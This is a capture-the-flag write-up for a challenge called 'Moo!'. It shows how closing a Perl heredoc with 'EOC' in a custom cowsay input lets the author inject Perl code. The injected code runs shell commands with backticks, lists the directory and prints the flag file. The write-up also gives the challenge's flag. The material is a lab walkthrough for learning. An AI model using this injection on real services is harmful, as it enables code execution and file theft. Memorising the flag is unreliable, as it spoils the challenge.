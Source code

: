 # Moo! 
## Capture the Flag
Viewing all the different cows, we find that custom_cow looks interesting because it has more inputs like `$eyes`, `$tongue`, and `$thoughts`. All variables are used in the `custom_cow` text area. Try to use a new variable like `$test` and you'll get an error message:

>> $ must be escaped with \ except when using $thoughts, $eyes or $tongue

The text area interprets some variables. This tells us that this text area is vulnerable to input.

Doing a bit more research on cowsay brings us to the cowsay package site. From here you can download the source and inspect the different cow files. Notice that all cow files are multiline comments that use `EOC` as the start and end symbol. For example, the ghostbusters cow looks like this:

```
##
## Ghostbusters!
##
$the_cow = <<EOC;
          $thoughts
           $thoughts
            $thoughts          __---__
                    _-       /--______
               __--( /     \\ )XXXXXXXXXXX\\v.
             .-XXX(   O   O  )XXXXXXXXXXXXXXX-
            /XXX(       U     )        XXXXXXX\\
          /XXXXX(              )--_  XXXXXXXXXXX\\
         /XXXXX/ (      O     )   XXXXXX   \\XXXXX\\
         XXXXX/   /            XXXXXX   \\__ \\XXXXX
         XXXXXX__/          XXXXXX         \\__---->
 ---___  XXX__/          XXXXXX      \\__         /
   \\-  --__/   ___/\\  XXXXXX            /  ___--/=
    \\-\\    ___/    XXXXXX              '--- XXXXXX
       \\-\\/XXX\\ XXXXXX                      /XXXXX
         \\XXXXXXXXX   \\                    /XXXXX/
          \\XXXXXX      >                 _/XXXXX/
            \\XXXXX--__/              __-- XXXX/
             -XXXXXXXX---------------  XXXXXX-
                \\XXXXXXXXXXXXXXXXXXXXXXXXXX/
                  ""VXXXXXXXXXXXXXXXXXXV""
EOC
```

If we enter `EOC` in the custom_cow text area, notice that it does not appear in the result. The command likely ran. Now try to print something.

```
EOC
print "HELLO_WORLD\n";
```

You will get:

```
HELLO_WORLD
 ___________
< $thoughts >
 -----------
```

Ok, now we know we can execute whatever we want. Try printing the directory.

```
EOC
print `ls`;
```

The result:

```
flag
server.py
templates
 _________
< message >
 ---------
```

Now print the flag file:

```
EOC
print `ls`;
open (FH, 'flag');
print <FH>;
```

And get the flag: 
```
flag
server.py
templates
AOTW{the_perl_cow_says_moo} 
_________
< message >
 ---------
```

https://packages.ubuntu.com/source/bionic/cowsay